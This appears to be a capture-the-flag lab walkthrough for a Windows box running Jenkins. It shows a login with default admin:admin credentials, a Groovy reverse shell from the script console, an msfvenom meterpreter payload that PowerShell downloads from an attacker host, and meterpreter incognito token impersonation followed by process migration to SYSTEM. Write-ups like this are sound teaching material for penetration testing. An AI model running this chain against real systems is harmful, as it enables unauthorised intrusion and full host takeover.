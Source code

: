 > RCE, default credentials, token impersonation.

# Ports

* **80** : IIS httpd 7.5
* **8080** : Jetty 9.4.z-SNAPSHOT
### Port 8080 is used for exploiting

# 80
1. `gobuster` didn't give useful results.

# 8080
1. Jenkins is running on this port.
2. Trying default credentials gave access easily. Here `admin` with password: `admin` was used.


# EXPLOITATION (via msf)
Jenkins contain a script console to run scripts in the host system for automation purposes. This uses a scripting language called `groovy` we can search for groovy reverse shells in google. 
We use [this](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) script to get a reverse shell.
Note: an msf module is also available.(`exploit/multi/http/jenkins_script_console`)

Since this box is intended to teach token impersonation attack, we are switching to a meterpreter shell. If you used the msfmodule earlier and had a meterpreter payload, you can skip to the next section about privilege escalation.

`msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -f exe -o revshell.exe` and start a python server in the directory for transferring the file .

Use the (`exploit/multi/handler`) module in msf and set the payload to (`windows/meterpreter/reverse_tcp`) and configure its hosts and ports.  Then `run`.

`powershell -c wget "10.0.2.12:8000/revshell.exe -outfile revshell.exe"` to get the file. It is better to do this in a temp folder.

Run the `reveshell.exe` by typing its name and hitting enter.

You will get the connection in the msfconsole.

# Actions in the low privilege shell

1. To check for access tokens ,  we need to load a meterpreter extension `incognito`. So `load incognito`.
2. To see our current privileges, `whoami /priv`. Output shows us that we have the `SeImpersonatePrivilege` enabled.
3. To check for available tokens, `list_tokens -g`. Output show us that `BUILTIN\Administrators`  is available.
4. To impersonate, `impersonate_token "BUILTIN\Administrators"`
5. Running `getguid` shows us that we are system.
6. We need to check if our current meterpreter process has system priveleges. So `getpid`
7. Running `ps` list the current running processes. We see that our current process do not have sufficient privileges.(We need sufficient privileges to read and write to system folders)
8. We need to migrate to a process with system privileges. We see some in list.
9. `migrate <PID>` . Migration may not always be successful. Try running with another pid if one fails.

We now have administrative privileges.